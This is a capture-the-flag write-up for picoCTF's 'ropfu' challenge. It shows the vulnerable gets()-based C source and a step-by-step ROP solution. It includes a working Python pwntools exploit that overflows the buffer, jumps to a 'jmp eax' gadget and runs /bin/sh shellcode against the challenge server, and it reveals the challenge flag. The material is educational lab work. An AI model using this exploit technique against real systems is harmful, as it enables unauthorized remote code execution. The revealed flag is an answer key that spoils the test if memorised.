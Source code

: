 
# ropfu

*Hard*

>### Description
>What's ROP?
Can you exploit the following [program](https://artifacts.picoctf.net/c/44/vuln) to get the flag? [Download source](https://artifacts.picoctf.net/c/44/vuln.c).
`nc saturn.picoctf.net 62081`

### Solution

The program asks for user input, and doesn't seem to do anything. Lets look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);


  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();

}
```

- We can also see that the `vuln()` uses gets() instead of fgets(), so it is probably vulnerable to overflows. 

Debug the binary to find out where our input gets put in memory, and find the offset, etc. Find how it is run behind the scenes with **gdb**.

>I was using the WRONG EXECUTABLE when debugging, so WASTED 2.5 hours!!! :(

Using a debugger, I find that the offset between the user input and the return address is 28 bytes. And since this is a ROP (return oriented programming) challenge, we probably have to get a shell. 

>First time for me, so I had to look up a writeup on how to do it.

After the gets(), the address of our input is in EAX, so we want to return some line in the code that jumps to/calls EAX (gadget). Use `ROPgadget --binary vuln | grep "jmp eax"` to find a line: `0x0805333b : jmp eax`. We must overwrite the return address to 0x0805333b, and implement a shell in our input. The padding bytes we use to get to the 28 bytes offset will be 0x90; nop instructions. And the last 2 of these bytes will be one little jmp 0x04 instruction to jmp over the address.

I kinda copied python code to exploit:
```python
import pwn
import sys

payload = b'\x90' * 26
payload += b'\xeb\x04'
payload += pwn.p32(0x0805333b)

payload += pwn.asm(pwn.shellcraft.i386.linux.sh())

p = pwn.remote('saturn.picoctf.net', 52440)

p.sendline(payload)
p.interactive()
```

Now we get a shell! Find the flag file using `ls`, and read the contents using `cat`.

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{5n47ch_7h3_5h311_4cbbb771}
</details>
